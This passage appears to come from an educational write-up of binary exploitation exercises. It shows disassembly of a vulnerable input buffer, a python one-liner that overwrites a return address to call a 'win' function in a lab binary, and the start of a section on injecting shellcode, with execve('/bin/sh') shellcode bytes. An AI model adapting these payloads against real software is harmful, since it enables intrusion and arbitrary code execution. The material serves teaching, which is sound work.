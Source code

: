 ```
  4011a1:       e8 aa fe ff ff          call   401050 <printf@plt>
  4011a6:       48 8d 45 e0             lea    rax,[rbp-0x20]         # <---- buffer `name` referenced here
  4011aa:       ba 40 01 00 00          mov    edx,0x140
  4011af:       48 89 c6                mov    rsi,rax
  4011b2:       bf 00 00 00 00          mov    edi,0x0
  4011b7:       e8 a4 fe ff ff          call   401060 <read@plt>
  4011bc:       48 8d 45 e0             lea    rax,[rbp-0x20]         # <---- and here
  4011c0:       48 89 c6                mov    rsi,rax
  4011c3:       48 8d 05 72 0e 00 00    lea    rax,[rip+0xe72]        # 40203c <_IO_stdin_used+0x3c>
  4011ca:       48 89 c7                mov    rdi,rax
  4011cd:       b8 00 00 00 00          mov    eax,0x0
  4011d2:       e8 79 fe ff ff          call   401050 <printf@plt>
  4011d7:       90                      nop
  4011d8:       c9                      leave  
  4011d9:       c3                      ret 
[...]
```
So we know that we find the saved base pointer at offset `0x20` and the return
address at offset `0x28`.
Therefore, sending a payload with the address of `win` at the right offset
results in execution of `win` (before the program crashes):
```
$ python -c "import os, struct; os.write(1, b'A'*0x28 + struct.pack('<Q', 0x401156))" | ./overflow2
win is located at 0x401156
Please enter your name: Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAV@!
Success!
[1]    1619075 done                              python -c  | 
       1619076 segmentation fault (core dumped)  ./overflow2
```


### Bonus Part 3: Executing Shellcode


The program is almost the same as before, but in contrast to `overflow2` there
is no `win` function we can call.
Luckily, the stack of `overflow3` is now executable, so we can inject our own
code into the buffer and execute it.:
```
$ readelf -l overflow2 | grep -A1 STACK
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RW     0x10
$ readelf -l overflow3 | grep -A1 STACK 
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RWE    0x10
                                                          ^
                                                          |
                                                          E stands for "executable"
```

The code we will inject is commonly called "shellcode", since it is common to
spawn a new shell to be able to execute arbitrary commands.
One example of such a shellcode is given in the exercise.
If we assemble the code, we get the following byte sequence:
```python
shellcode = b'\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x48\x89\xe7\x48\x31\xc0\x50\x48\x89\xe6\x48\x89\xe2\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05'
```
